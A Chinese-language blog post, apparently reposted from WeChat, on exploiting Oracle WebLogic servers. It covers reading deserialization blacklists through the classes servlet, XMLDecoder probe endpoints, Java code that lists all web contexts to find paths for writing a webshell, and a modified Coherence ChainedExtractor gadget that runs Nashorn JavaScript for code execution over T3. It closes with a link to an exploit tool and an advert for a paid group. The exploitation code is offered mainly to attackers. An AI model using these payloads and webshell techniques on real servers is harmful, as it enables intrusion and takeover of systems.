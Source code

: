 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/tgQO9ILHudfkkOzeahICTg)

简介
--

weblogic 服务器的特点为架构庞大复杂，蓝队一般很难防御，且多部署于外网。而且 weblogic 的攻击成本比较低，只要存在漏洞，一般可以直接获取目标服务器的 root 权限。在 hw 中被各大攻击队，防守方重点关注。

当然，目前网上公开的各种 exp 程序，当然也包括我自己的工具，或多或少都有点问题。于是近期在朋友的要求下，整理了部分攻击方法以及” 完美 “利用。红队可以用来完善自己的工具，蓝队可以用来写溯源报告。

1. 探测 weblogic 是否存在漏洞
---------------------

目前网上公开的资料中，没有一种比较好的方法去判断 weblogic 是否存在漏洞。通常各类工具做法是用 exp 打一遍，如果成功了则自然存在漏洞，如果失败了则不存在漏洞。再或者，通过 dnslog 的方式去探测。这两种方法受限于各种因素，导致漏报误报的比例很高。还有可能触发蜜罐，waf 等等安全设备的规则。

当然在这里我介绍一种更简便的方式去查看是否存在漏洞，那就是利用 T3 RMI 的 CODEBASE 功能查看 weblogic 的黑名单 。

> codebase: 简单说，codebase 就是远程装载类的路径。当对象发送者序列化对象时，会在序列化流中附加上 codebase 的信息。这个信息告诉接收方到什么地方寻找该对象的执行代码。

那我们是不是可以发散一下思维，如果这个类是 weblogic 的黑名单类呢？？而且 weblogic 的 codebase 利用 http 协议去传输类。

利用方法如下，使用你的浏览器，确认好对方是 weblogic 服务器后，url 如下

> T3 反序列化的黑名单`http://xx:7001/bea_wls_internal/classes/weblogic/utils/io/oif/WebLogicFilterConfig.class`

> xmldecoder 黑名单`http://192.168.119.130:8088//bea_wls_internal/classes/weblogic/wsee/workarea/WorkContextXmlInputAdapter.class`

### 1.1 T3 codebase 分析

在`weblogic.rjvm.InternalWebAppListener#contextInitialized`处代码，注册处理 codebase 的代码，也就是请求路径为 classes

```
if (!server.isClasspathServletDisabled()) {            servletContext.addServlet("classes", "weblogic.servlet.ClasspathServlet").addMapping(new String[]{"/classes/*"});        }
```

下面我们来看一下 weblogic.servlet.ClasspathServlet 的处理代码，很简单，就是读取类名然后写入到 http 响应中。

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgXGuibZ56sAeSjVFPyWEw2puicFiapfMCHaBCaApNL04YEe1GAh9VVXJpXUIjV2byAmFzs6KGiarQDg/640?wx_fmt=png)image-20210329120233323

当然，这里是不是也存在任意文件读取漏洞呢？答案是的，只不过有一个黑名单，禁止某些后缀的文件被读取。黑名单列表如下

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgXGuibZ56sAeSjVFPyWEw2yiaVABJBoNCjVlDHyvIeZPjLvH8Iibs1RRK9EvmOtoGmicEvNgAicb9Pyg/640?wx_fmt=png)

image-20210329120332791

理论上讲，你也可以通过 CODEBASE 去读取用户的类下载到本地做代码分析。前提是你需要知道用户的类名是什么。当然，也有黑名单，黑名单如下

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgXGuibZ56sAeSjVFPyWEw2yiaVABJBoNCjVlDHyvIeZPjLvH8Iibs1RRK9EvmOtoGmicEvNgAicb9Pyg/640?wx_fmt=png)image-20210329120542711

2. weblogic xmldecoder 反序列化漏洞
-----------------------------

漏洞不做过多介绍，在这里不谈该漏洞的成因原理以及分析。

漏洞探测的 url

*   /wls-wsat/CoordinatorPortType
    
*   RegistrationPortTypeRPC
    
*   ParticipantPortType
    
*   RegistrationRequesterPortType
    
*   CoordinatorPortType11
    
*   RegistrationPortTypeRPC11
    
*   ParticipantPortType11
    
*   RegistrationRequesterPortType11
    

该漏洞利用的难点我认为有如下几个方面

1.  网上只有回显代码，没有利用代码，例如内存马
    
2.  写马的话，可能会遇到路径的问题。wenlogic 的路径为随机，目前网上公开的解决办法是爆破。
    
3.  怎么寻找所有的 Context？
    

下面我们来一一解决，以 weblogic 10.x 的 exp 为例

xmldecoder 的 xml payload 做了以下的工作

1.  调用 weblogic.utils.Hex.fromHexString 函数，将 hex 编码的 class 文件转换为二进制格式
    
2.  调用 org.mozilla.classfile.DefiningClassLoader 的 defineClass 方法，将上面的 class 文件加载到虚拟机中
    
3.  调用 newInstance 方法生成上面被添加至 JVM 的类的实例
    
4.  调用实例的方法以完成攻击
    

payload 其实你知道稍微看一下，就知道 xmldecoder 的写法，这里就不再赘述

上面所有的问题，其实都可以归结为一个问题，那就是怎么寻找 weblogic 下，所有 web 应用的上下文？

在这里我公开一个方法，该方法在 weblogic 10/12 下经过测试，且不受协议影响，也就是说，你只要能在 weblogic 里执行代码，我就可以获取 weblogic 所有的 webcontext。代码如下

```
java.lang.reflect.Method m = Class.forName("weblogic.t3.srvr.ServerRuntime").getDeclaredMethod("theOne");        m.setAccessible(true);        ServerRuntime serverRuntime = (ServerRuntime) m.invoke(null);        List<WebAppServletContext> list = new java.util.ArrayList();        StringBuilder sb = new StringBuilder();        for (weblogic.management.runtime.ApplicationRuntimeMBean applicationRuntime : serverRuntime.getApplicationRuntimes()) {            java.lang.reflect.Field childrenF = applicationRuntime.getClass().getSuperclass().getDeclaredField("children");            childrenF.setAccessible(true);            java.util.HashSet set = (java.util.HashSet) childrenF.get(applicationRuntime);            java.util.Iterator iterator = set.iterator();            while (iterator.hasNext()) {                Object key = iterator.next();                if (key.getClass().getName().equals("weblogic.servlet.internal.WebAppRuntimeMBeanImpl")) {                    Field contextF = key.getClass().getDeclaredField("context");                    contextF.setAccessible(true);                    WebAppServletContext context = (WebAppServletContext) contextF.get(key);                    list.add(context);                }            }        }        return list;
```

### 2.1 获取随机路径

利用上面的代码，获取到 weblogic 加载的所有的 web context 后，我们可以调用`context.getRootTempDir().getAbsolutePath()`方法去获取目录的位置，然后写入 webshell。

我的代码如下

```
List<WebAppServletContext> contexts = findAllContext();        Iterator<WebAppServletContext> i = contexts.iterator();        StringBuilder sb = new StringBuilder();        while (i.hasNext()) {            WebAppServletContext context = i.next();            sb.append(String.format("name %30s\turl %30s\tDocroot %s\n", context.getAppName(), context.getContextPath(), context.getRootTempDir().getAbsolutePath()));        }        return new ByteArrayInputStream((sb.toString()).getBytes());
```

截图如下![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgXGuibZ56sAeSjVFPyWEw2haDG71ugISwP1EFpgNAvHUlj7nwP29mCm4R8cIATPZatUDVoK48oLA/640?wx_fmt=png)

### 2.2 weblogic 12.x payload

weblogic 12.x 中，没有 org.mozilla.classfile.DefiningClassLoader 这个类，况且我也不太喜欢这种不灵活的方式去写 exp。在这里我换一种方式，那就是通过 java 调用 js。

从 JDK 1.8 开始，Nashorn 取代 Rhino(JDK 1.6, JDK1.7) 成为 Java 的嵌入式 JavaScript 引擎。Nashorn 完全支持 ECMAScript 5.1 规范以及一些扩展。它使用基于 JSR 292 的新语言特性，其中包含在 JDK 7 中引入的 invokedynamic，将 JavaScript 编译成 Java 字节码。

> 注意，不支持 1.5 以及 1.5 以下的 JVM

在 java 执行 js 时，可以调用任意 java 对象，方法，类。需要注意的是，java 是强类型语言，而 js 是弱类型语言，js 有的时候可能会代码意想不到的类型转换。这里需要注意

只需要将上面加载 context 的代码，改成 js 就可以，在这里我贴一张截图

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgXGuibZ56sAeSjVFPyWEw2QCNtpjqOvicYCwB8uPnr84Xc7Xkp9Sq6k2S5zLibcBoweyPWlY8jrCUw/640?wx_fmt=png)

> 在 nashorn 中，默认最后一个变量作为调用本次 js 的返回值

3. weblogic T3 反序列化
-------------------

在这里我推荐一下 r4v3zn 老哥的 weblogic-framework 利用工具， 。当然也有一点点 bug，不过这是一款非常好用的工具。工具地址 https://github.com/0nise/weblogic-framework

漏洞探测的话，参考前面的黑名单下载方式

当然，T3 反序列化中也有很多坑，例如 cve-2020-2555 等，无法做到类似于 CC 链的任意代码执行，目前同行的大部分做法是上传一个 jar 至 tmp 目录或者通过 urlclassloader 去远程加载 jar 包，部署恶意代码。

但是我们依旧可以通过反序列化的链式执行，调用 nashorn 的方式，间接做到任意代码执行。

而我们待执行的 js，通过反射调用 javaassist 包去组装一个 ClusterMasterRemote 类并绑定 JNDI 实例以作回显。js 代码如下

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgXGuibZ56sAeSjVFPyWEw2OL1WzuqSu1zicGrZLiaXCq9Gu8uVPGC02qM3ibcYqgJqAcVMSnna5MoTw/640?wx_fmt=png)image-20210329124530132

当然，corherence gadget 处需要修改成如下

```
private static ChainedExtractor getChainedExtractor() {        return new ChainedExtractor(new ReflectionExtractor[]{                new ReflectionExtractor(                        "newInstance", new Object[]{}                ),                new ReflectionExtractor(                        "getEngineByName", new Object[]{"nashorn"}                ),                new ReflectionExtractor(                        "eval", new Object[]{getJsCode()}                )        });    }
```

当然，如果您还是无法写出 payload，建议直接加入我们创建的知识星球，只需要 66 元。即支持我们工作，你又可以得到工具，何乐而不为呢。

我正在「宽字节安全」和朋友们讨论有趣的话题，你⼀起来吧？https://t.zsxq.com/qJe2JEi  

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdGgXGuibZ56sAeSjVFPyWEw25uaZEmwaGKmltLREfSVu5J7C9y8q7qg7GoGW5iapmeHKPoFY74Ha1fA/640?wx_fmt=png)